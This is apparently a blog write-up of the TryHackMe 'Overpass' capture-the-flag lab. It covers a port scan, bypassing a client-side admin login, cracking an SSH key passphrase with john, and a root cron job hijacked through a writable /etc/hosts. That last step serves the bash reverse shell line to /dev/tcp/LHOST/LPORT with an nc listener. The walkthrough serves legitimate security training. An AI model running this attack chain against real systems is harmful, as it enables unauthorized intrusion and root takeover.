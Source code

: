 ```yaml
---
layout: post
title: overpass writeup
subtitle: What happens when some broke CompSci students make a password manager?
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/overpass/logo.png
share-img: /assets/img/path.jpg
tags: [ctf,tryhackme, writeup, overpass, bypass , cronjob]
---
```


What happens when a group of broke Computer Science students try to make a password manager? Obviously a perfect commercial success!


## Here is a machine information

| Title | Overpass | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 160 |
| Maker | NinjaJc01 |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 

===============================================================
## RUSTSCAN, Enumeration and Gathering Information
Normally, i will use the rustscan as scan the host and gathering machine information


``` rustscan -b 500 machine-ip -- -sv -sC -A ```
<em>

-b : the batch size for port scanning, it increases or slows the speed of scanning. Depends on the open file limit of your OS.  If you do 65535 it will do every port at the same time. Although, your OS may not support this [default:4500]

-sV -sC -A: it is Nmap custom flag when rustscan run nmap.
</em>

It will take few time to scan: 

![gs1](/assets/img/overpass/1.png)

After the scan is done. There is 2 ports open. It is 22 and 80.

At port 80. it is overpass main page. let check with dirsearch.


![gs1](/assets/img/overpass/2.png)

As seeing. We have admin login. 

![gs1](/assets/img/overpass/3.png)

We can try to do the brute force an credentials. But we should not do it with the hint. Then view page source and we got this.

![gs1](/assets/img/overpass/4.png)

By checking it. The application is only check status of session. We can change to anything to bypass this. 

![gs1](/assets/img/overpass/5.png)

Then we got the public key. Let do the ssh but we the username as james. But it requires the passphrass. 

![gs1](/assets/img/overpass/6.png)

Let's crack it via ssh2john.

```
python ssh2john.py publicKey > hash

john hash --wordlist
```

I am using rockyou as a wordlists here. Then we got the password for public key.

![gs1](/assets/img/overpass/7.png)

Yes, we got the user flag as james login via ssh.

![gs1](/assets/img/overpass/8.png)

## Privilege Escalation

From the james home, we have

![gs1](/assets/img/overpass/9.png)

Let's check crontab. We have the auto script which was run with root user.

![gs1](/assets/img/overpass/10.png)

And check the /etc/hosts. We are able to modify it. Coool!!!!!

Now let prepare the revers shell.

Firstly, we edit the /etc/hosts point to our attack machine.

![gs1](/assets/img/overpass/11.png)

From our attack machine, prepare the buildscript.sh as in the crontab job.

```
bash -i >& /dev/tcp/LHOST/LPORT 0>&1
```

it should save at attack machine look like.

![gs1](/assets/img/overpass/12.png)

Now from attacker machine. Listen port.

```
nc -lvnp port
```

And also open http server via python3

```
python3 -n http.server 80
```
Now and wait for the cron job rerun and we got shell as root user.

![gs1](/assets/img/overpass/13.png)

Yeah now we have the root flag. !!!!!


Happy Hacking !!!
